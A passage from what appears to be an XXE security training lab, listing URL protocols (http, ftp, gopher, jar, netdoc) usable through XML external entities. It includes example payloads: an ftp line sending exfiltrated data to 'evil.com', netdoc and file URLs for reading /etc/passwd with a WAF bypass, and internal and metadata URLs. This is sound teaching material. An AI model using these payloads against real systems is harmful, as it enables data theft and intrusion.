 Example:
 - `https://192.168.0.150:8000/`
 - `https://localhost/phpMyAdmin/`

:negative
`https://169.254.169.254/latest/user-data` AWS metadata URLs now require a special header. It is unlikely that you will be able to access it with XXE.


#### ftp: protocol

This protocol allows you to connect to a FTP server to read file (would require to know the exact file location and credentials to authenticate) or exfiltrate data (see the next exercise).

Example:
- `ftp://user:password@internal.company.net/file`
- `ftp://user:<data_exfil>@evil.com`

#### gopher: protocol

Another option for data exfiltration is the gopher protocol. It allows to connect to any server with a TCP with an arbitrary message. The path section of the URL is the data that will be written to the TCP socket.
It is rarely available as it requires very [old versions of Java](https://bugzilla.redhat.com/show_bug.cgi?id=865541#c0).

- `gopher://server/?data`

#### jar: protocol

The `jar` protocol is a very special case. It is only available on Java applications. It allows to access files inside a PKZIP archive (`.zip`, `.jar`, ...). You will see in the last exercise how it can be used to write files to a remote server.

Example:
- `jar:file://./archive.zip!config.properties`

#### netdoc: protocol

This protocol is alternative to the `file://` protocol. It is of limited use. It is often cited as a method to bypass some WAF blocking for specific string such as `file:///etc/passwd`.

Example:
- `netdoc:///etc/passwd`















## LAB 3: Filter encoding
Duration: 00:15:00
